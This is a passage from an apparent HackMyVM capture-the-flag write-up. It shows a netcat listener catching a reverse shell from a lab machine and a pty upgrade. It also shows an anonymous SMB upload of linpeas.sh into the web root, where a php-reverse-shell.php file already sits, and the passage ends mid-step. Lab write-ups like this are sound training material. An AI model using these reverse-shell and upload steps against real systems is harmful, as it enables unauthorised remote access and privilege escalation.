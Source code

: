 Catching the reverse shell on our local machine 

```bash
┌──(root💀kali)-[/opt/hackmyv/connection]
└─# nc -lvnp 1234                                  
listening on [any] 1234 ...
connect to [192.168.56.3] from (UNKNOWN) [192.168.56.20] 40256
Linux connection 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 02:16:28 up 29 min,  0 users,  load average: 0.00, 0.53, 3.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Further enumeration shows that there's no wget , so I have to upload the linpeas.sh through SMB instead.

```bash
$ which awk perl python python3 ruby gcc cc vi vim nmap find netcat nc wget tftp ftp php 2>/dev/null
which awk perl python python3 ruby gcc cc vi vim nmap find netcat nc wget tftp ftp php 2>/dev/null
/usr/bin/awk
/usr/bin/perl
/usr/bin/python
/usr/bin/python3
/usr/bin/vi
/usr/bin/find
/usr/bin/php
```

```bash
┌──(root💀kali)-[/opt/hackmyv/connection]
└─# smbclient //192.168.56.20/share         
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd html\
smb: \html\> put linpeas.sh 
putting file linpeas.sh as \html\linpeas.sh (80606.7 kb/s) (average 80608.6 kb/s)
smb: \html\> 
```

On the victim machine , transfer linpeas over.
```bash
$ cd /var/www/html
cd /var/www/html
$ ls -la
ls -la
total 356
drwxrwxrwx 2 root   root      4096 Dec 24 02:21 .
drwxr-xr-x 3 root   root      4096 Sep 22  2020 ..
-rwxrwxrwx 1 root   root     10701 Sep 22  2020 index.html
-rwxr--r-- 1 nobody nogroup 330173 Dec 24 02:21 linpeas.sh
-rwxr--r-- 1 nobody nogroup   5494 Dec 24 02:15 php-reverse-shell.php
-rwxr--r-- 1 nobody nogroup     13 Dec 24 02:06 test.txt
$ cp linpeah.sh /tmp
cp linpeah.sh /tmp
cp: cannot stat 'linpeah.sh': No such file or directory
$ cd linpeas.sh /tmp
cd linpeas.sh /tmp
/bin/sh: 19: cd: can't cd to linpeas.sh
```